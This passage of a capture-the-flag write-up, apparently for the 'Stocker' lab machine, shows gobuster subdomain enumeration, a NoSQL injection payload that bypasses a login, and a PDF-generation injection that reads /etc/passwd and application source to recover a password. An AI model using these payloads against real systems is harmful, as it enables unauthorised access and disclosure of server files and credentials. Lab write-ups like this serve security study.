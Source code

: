 ```shell
===============================================================
2023/03/30 02:44:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/03/30 02:45:04 Finished
===============================================================
```

again we need to add `dev.stocker.htb` to `/etc/hosts` file.

#### NoSQL Injection Login bypass

after few try and errors we found that login page is vulnerable to NoSQL Injection.

`Content-Type: application/json`

Payload: `{"username": {"$ne": null}, "password": {"$ne": null}}`

here we can purchase something through api and on view order it will generate pdf or that order.

Since it generates PDF on the server side, let's see if we can include server files.

#### Read local files using PDF generation

Let's try to Read local file.

Path:`api/order` 
Payload:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///etc/passwd'>","description":"It's a red cup.","image":"/etc/passwd","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
response:
```json
{"success":true,"orderId":"642550c92e188ca84f0a3f46"}
```

we can see generated PDF at `/api/po/642550c92e188ca84f0a3f46`.

<img width="498" alt="image" src="https://user-images.githubusercontent.com/79740895/228787287-27642032-742a-400f-9b1d-e7814137d623.png">

We can modify our payload to increase the view area:

```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///var/www/dev/index.js' height=800 width=800>","description":"It's a red cup.","image":"Yo","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
result:

<img width="324" alt="image" src="https://user-images.githubusercontent.com/79740895/228790867-552de9df-6da5-4534-a6da-f457149e974b.png">

we found Password: `IHeardPassphrasesArePrettySecure`

previously we show one comment from Angoose Garden, Head of IT at Stockers Ltd.
